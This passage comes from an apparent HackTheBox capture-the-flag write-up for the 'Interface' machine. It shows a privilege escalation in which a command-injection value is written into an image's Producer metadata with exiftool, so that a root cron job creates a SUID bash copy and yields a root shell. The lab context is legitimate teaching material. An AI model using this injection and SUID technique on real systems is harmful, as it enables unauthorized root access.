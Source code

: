 #### Shell

I’ll update my payload to create a copy of `bash` set as SUID:

    
    
    www-data@interface:/tmp$ touch test
    www-data@interface:/tmp$ exiftool -Producer='x[$(cp${IFS}/bin/bash${IFS}/tmp/0xdf;chmod${IFS}4777${IFS}/tmp/0xdf)]
    

When the cron runs, it’s there:

    
    
    www-data@interface:/tmp$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1113504 Feb 13 20:40 /tmp/0xdf
    

I’ll run it (with `-p` to not drop privs) and get a shell with effective UID
as root:

    
    
    www-data@interface:/tmp$ /tmp/0xdf -p
    0xdf-4.4# id
    uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
    0xdf-4.4#
    

And `root.txt`:

    
    
    0xdf-4.4# cat /root/root.txt
    3772a7d2************************
    

## Beyond Root - Patched Unintended

### Enumeration

There was an unintended solution patched by HackTheBox on 15 February 2023,
four days after Interface released:

![image-20230508180653311](../img/image-20230508180653311.png)

It talks about an unintended solution in a cleanup script.

Working on a system before the patch, looking at the timestamps in
`/var/www/api/vendor/dompodf/dompdf/lib/fonts`, I’ll notice they are all from
November, except for one:
